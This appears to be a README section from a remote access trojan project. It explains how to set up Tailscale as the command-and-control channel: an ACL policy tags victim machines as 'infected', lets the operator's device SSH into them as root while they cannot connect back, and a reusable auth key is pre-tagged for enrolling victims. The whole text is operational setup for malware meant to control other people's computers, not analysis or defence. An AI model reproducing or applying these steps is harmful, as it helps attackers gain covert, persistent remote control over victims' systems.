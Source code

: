 # Tailscale Service
---

## Overview
For this RAT you need Tailscale to remote access computer outside your network. 

## Resources
    For the RAT you only need the Auth Key from Tailscale the rest you will find here.

1. Make an Account for Tailscale (I used Github)
    [Tailscale Login](https://login.tailscale.com/login?next_url=%2Fwelcome)
2. Install Tailscale for your Computer
    [Tailscale Download](https://tailscale.com/download)

3. Go to "Access Control" and add this script ( For "your_name" if you used Github as login, put your Github name in )
[ Access Conrol](https://login.tailscale.com/admin/acls/file)
    ```json
    {
    "groups": {
        "group:console": ["your_name@github.com"],          // creates a group with the name "console" with only you inside 
    },

    "tagOwners": {                                          // creates 2 tags for your computer and targets
        "tag:ConsoleDevice": ["autogroup:admin"],           // Your computer
        "tag:infected":      ["autogroup:admin"],           // Your Targets
    },

    "acls": [                                     
        // Adds that your computer can acces the targets, but your targets not you
        { "action": "accept", "src": ["tag:ConsoleDevice"], "dst": ["tag:infected:*"] },
    ],

    "ssh": [                                                // Adds that your computer can ssh all targets per tailscale ssh 
        {
            "action": "check",
            "src":    ["group:console"],
            "dst":    ["tag:infected"],
            "users":  ["autogroup:nonroot", "root"],
        },
    ],
    }
    ```
4. Now go to "Settings" and click on "Keys" on the left side
    [Tailscale Keys](https://login.tailscale.com/admin/settings/keys)
    
    - Generate auth key
    - Customize Key
        - add Description
        - check the mark for "Reusable"
        - Set Expiration to 90
    - Enable tags
        - add tags
        - click on tag:infected
    - Generate key